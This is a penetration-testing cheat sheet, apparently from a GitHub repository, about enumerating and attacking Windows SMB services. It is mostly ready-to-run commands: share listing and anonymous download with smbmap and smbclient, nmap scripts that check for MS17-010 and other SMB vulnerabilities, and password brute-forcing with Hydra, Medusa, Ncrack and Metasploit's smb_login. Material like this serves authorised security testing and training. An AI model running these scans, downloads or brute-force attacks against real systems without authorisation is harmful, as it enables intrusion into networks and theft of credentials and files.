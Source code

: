 ## SMB Enumeration & Exploitation

### *SMB Enumeration
 #### Enumerate Hostname
    nmblookup -A [IP]
 #### List Shares
   ##### smbmap
    smbmap -H 192.168.10.1

    smbmap -R [shared dir] -H 192.168.10.1 = list contents

    smbmap -R [shared dir] -H 192.168.10.1 -A [filename.xml] -q = download content 

    smbmap -d active.htb -u [USER NAME] -p [PASSWORD] -H 192.168.10.1

    smbmap -d active.htb -u [USER NAME] -p [PASSWORD] -H 192.168.10.1 -R [Users] = download all contents in a filename Users

##### smbclient ( -L list shares, -N anonymous logon,)

    smbclient -L //192.168.10.1

    smbclient -L //10.10.10.100 -N

   download all contents in a filename folder[ ! password required]

    smbclient //192.168.10.1/filename

    > recurse ON
 
    > prompt OFF
 
    > mget *
 
 - Check Null Sessions
 - Overall Scan
    enum4linux -S 192.168.10.1



### Check for Vulnerabilities
    git clone https://github.com/peterpt/eternal_scanner.git && cd eternal_scanner
    
    nmap --script smb-vuln* -p 139,445 [ip]
    
    nmap -T4 -p445 --script smb-vuln-ms17-010 192.168.1.106
    
    use auxiliary/scanner/smb/smb_ms17_010

### Exploitation
 #### Hack SMB Login Password
    Hydra - hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
    X-Hydra
    Medusa - medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
    Ncrack - ncrack –U /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
    Metasploit
      use auxiliary/scanner/smb/smb_login
      msf exploit (smb_login)>set rhosts 192.168.1.118
      msf exploit (smb_login)>set user_file /root/Desktop/user.txt
      msf exploit (smb_login)>set pass_file /root/Desktop/pass.txt
      msf exploit (smb_login)>set stop_on_success true
      msf exploit (smb_login)>exploit


### NBTSCAN

nbtscan -r 10.0.2.0/24


### NMAP
nmap --script smb-enum-shares -p 139,445 [ip]

nmap --script smb-enum-services -p 445 192.168.10.1 -d

nmap -p 445 -A 192.168.1.101

nmap -p 1-65535 -T4 -O -A -v 10.0.2.15


SMB Enumeration Techniques using Windows Tools:

1. NetBIOS Enumerator (nbtenum)

http://nbtenum.sourceforge.net/
------------------------------------------------------------

SMB\RPC Enumeration (139/445):

    enum4linux –a 10.0.0.1
    nbtscan x.x.x.x // Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
    py 192.168.XXX.XXX 500 50000 dict.txt
    python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
    nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
    smbclient -L INSERTIPADDRESS
    smbclient //INSERTIPADDRESS/tmp
    smbclient INSERTIPADDRESS ipc$ -U john
    
_____________________________________________________________________________________________________________________________________
### Other links

https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b

https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

https://www.hackingarticles.in/5-ways-to-hack-smb-login-password/

https://www.hackingarticles.in/3-ways-scan-eternal-blue-vulnerability-remote-pc/

https://www.hackingarticles.in/smb-penetration-testing-port-445/

https://www.hackingarticles.in/netbios-and-smb-penetration-testing-on-windows/

